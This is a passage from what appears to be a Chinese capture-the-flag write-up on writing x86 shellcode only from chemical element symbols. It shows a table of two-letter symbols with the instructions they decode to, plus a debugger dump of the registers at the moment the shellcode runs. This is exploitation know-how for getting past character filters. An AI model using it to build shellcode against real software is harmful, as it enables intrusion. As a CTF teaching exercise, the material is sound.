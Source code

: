 ```txt
[Ra]	push edx ; popa
[Ac]	inc ecx ; xxxx
[Th]	push esp ; push xxxx
[Pa]	push eax ; popa
[U]		push ebp
[Np]	dec esi ; jo xx
[Pu]	push eax ; jne xx
[Am]	inc ecx ; ins es:[edi], dx
[Cm]	inc ebx ; ins es:[edi], dx
[Bk]	inc edx ; imul esi, [eax], xx
[Cf]	inc ebx ; xxxx
[Es]	inc ebp ; jae xx
[Fm]	inc esi ; ins es:[edi], dx
[Md]	dec ebp ; xxxx
[No]	dec esi ; outs dx, ds:[esi]
[Lr]	dec esp ; jb xx
[Rf]	push edx ; xxxx
[Db]	inc esp ; xxxx
[Sg]	push xx ; xxxx
[Bh]	inc edx ; push xxxx
[Hs]	dec eax ; jae xx
[Mt]	dec ebp ; je xx
[Ds]	inc esp, jae xx
[Rg]	push edx ; xxxx
[Cn]	inc ebx ; outs dx, ds:[esi]
[Fl]	inc esi ; ins es:[edi], dx
[Lv]	dec esp ; jbe xx
```

再看看运行 shellcode 的时候寄存器的状态。可以发现 `eax` 指向了输入的 shellcode，`ebx` 和 `ecx` 分别为 0：

```
─────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────
 EAX  0x324f6e4d ◂— dec    ebp /* 0x324f6e4d; 'MnO2' */
 EBX  0x0
 ECX  0x0
 EDX  0x80488a1 ◂— dec    edi /* 'O' */
 EDI  0xf7fc5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 ESI  0xf7fc5000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 EBP  0xffffd718 ◂— 0x0
 ESP  0xffffd6dc —▸ 0x80487ea (main+169) ◂— mov    dword ptr [esp], 0
 EIP  0x324f6e4d ◂— dec    ebp /* 0x324f6e4d; 'MnO2' */
───────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────
 ► 0x324f6e4d    dec    ebp
   0x324f6e4e    outsb  dx, byte ptr [esi]
   0x324f6e4f    dec    edi
   0x324f6e50    xor    al, byte ptr [eax]
   0x324f6e52    add    byte ptr [eax], al
   0x324f6e54    add    byte ptr [eax], al
   0x324f6e56    add    byte ptr [eax], al
   0x324f6e58    add    byte ptr [eax], al
   0x324f6e5a    add    byte ptr [eax], al
   0x324f6e5c    add    byte ptr [eax], al
   0x324f6e5e    add    byte ptr [eax], al
```
